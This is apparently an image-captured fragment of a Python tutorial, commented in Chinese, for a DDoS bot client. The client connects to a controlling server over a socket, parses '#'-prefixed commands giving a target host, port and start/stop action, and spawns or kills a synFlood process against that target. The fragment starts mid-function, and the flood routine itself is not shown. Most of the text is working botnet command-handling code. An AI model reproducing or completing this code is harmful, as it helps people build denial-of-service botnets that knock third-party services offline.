 ```python
        data = sock.recv(1024).decode('utf-8')
        # 接收到的数据长度为0，则跳过后续内容，重新接收;
        if len(data) == 0:
            print('The data is empty')
            return

        # 接收到的数据长度不为0，则判断是否有命令基本格式的特征#，满足则用ArgumentParser对象解析命令
        if data[0] == '#':
            try:
                # Parse Command
                options = parser.parse_args(data[1:].split())
                m_host = options.host
                m_port = options.port
                m_cmd = options.cmd

                '''
                4. 第四步
                判断命令参数解析后，是start命令还是stop命令
                首先，判断当前是否有进程在运行，如果有进程判断进程是否存活
                '''
                # DDoS Start Command
                if m_cmd.lower() == 'start':
                    # 如果当前有进程正在发起SYN泛洪攻击，我们就先结束这个进程，并清空屏幕，再启动一个进程
                    if curProcess != None and curProcess.is_alive():
                        # 结束进程
                        curProcess.terminate()
                        curProcess = None
                        os.system('clear')
                    print('The synFlood is already started')
                    p = Process(target=synFlood, args=(m_host, m_port))
                    p.start()
                    curProcess = p
                    # TODO
                    count = count+1

                # DDoS Stop Command
                elif m_cmd.lower() == 'stop':
                    if curProcess.is_alive():
                        curProcess.terminate()
                        os.system('clear')
            except:
                print('Failed to perform the command!')


'''
1. 第一步  
创建ArgumentParser对象，设置好需要解析的命令参数
'''
def main():
    p = argparse.ArgumentParser()
    p.add_argument('-H', dest = 'host', type = str)
    p.add_argument('-p', dest = 'port', type = int)
    p.add_argument('-c', dest = 'cmd', type = str)

    '''
    2. 第二步
    创建socket，连接服务器
    '''
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        ## 测试用，连接本地的58868端口
        s.connect(('127.0.0.1', 58868))
        print('To connect server was success!')
```
